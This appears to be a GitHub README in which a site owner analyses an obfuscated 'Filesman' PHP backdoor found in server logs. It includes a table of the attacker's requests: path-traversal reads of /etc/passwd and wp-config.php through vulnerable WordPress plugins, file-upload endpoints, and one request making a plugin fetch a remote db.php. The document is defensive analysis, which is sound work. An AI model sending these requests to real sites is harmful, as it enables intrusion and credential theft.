 # Obfuscated PHP backdoor
This came into my logs, and I had to Deobfuscate it to see what it was doing. It was very tedious because I still have to figure out how to automate that process... Stay tuned for that eventually.

## Description
This backdoor is called the "Filesman" PHP backdoor, and leverages vulnerable Wordpress plugins. It was uploaded to my server from a GET request.

When I analyzed the log, I was surprised to find Binary files and other huge Body requests from this one IP address: 175.138.65.218

Also provided by this IP address is a helpful map of resources they were trying to enumerate.


| Number of Requests | Resource Requested |
|---|---------|
| 9 | / |
| 3 | /robots.txt |
| 3 | /wp-admin/admin-ajax.php |
| 3 | /wp-admin/admin-ajax.php?action=revslider_show_image&img=../wp-config.php |
| 3 | /wp-content/plugins/candidate-application-form/downloadpdffile.php?fileName=../../../../../../../../../../etc/passwd |
| 3 | /wp-content/plugins/formcraft/file-upload/server/php/upload.php |
| 3 | /wp-content/plugins/recent-backups/download-file.php?file_link=/etc/passwd |
| 3 | /wp-content/plugins/revslider/temp/update_extract/revslider/db.php |
| 3 | /wp-content/plugins/simple-ads-manager/js/slider/tmpl.js |
| 3 | /wp-content/plugins/./simple-image-manipulator/controller/download.php?filepath=/etc/passwd |
| 3 | /wp-content/plugins/wp-ecommerce-shop-styling/includes/download.php?filename=../../../../../../../../../etc/passwd |
| 3 | /wp-content/plugins/wp-mobile-detector/cache/db.php |
| 3 | /wp-content/plugins/wp-mobile-detector/resize.php?src=http://www.relationshiptips.club/cache/db.php |
| 1 | /wp-content/plugins/wp-symposium/server/php/beyOrGgEAZBDHF.php |
| 1 | /wp-content/plugins/wp-symposium/server/php/eYXoORjxZzYOaf.php |
| 3 | /wp-content/plugins/wp-symposium/server/php/index.php |
| 1 | /wp-content/plugins/wp-symposium/server/php/vocqioANdBslXr.php |
| 3 | /wp-content/plugins/wptf-image-gallery/lib-mbox/ajax_load.php?url=/etc/passwd |
| 3 | /wp-content/themes/mTheme-Unus/css/css.php?files=../../../../wp-config.php |
| 3 | /xmlrpc.php?rsd |

## See Also:
[Manually Deobfuscate FOPO php](https://www.youtube.com/watch?v=y3s48uD7bG8)
[PHP Backdoor Obfuscation Techniques](https://vexatioustendencies.com/php-backdoor-obfuscation-techniques/)
[Convert Unicode Characters](https://r12a.github.io/apps/conversion/)

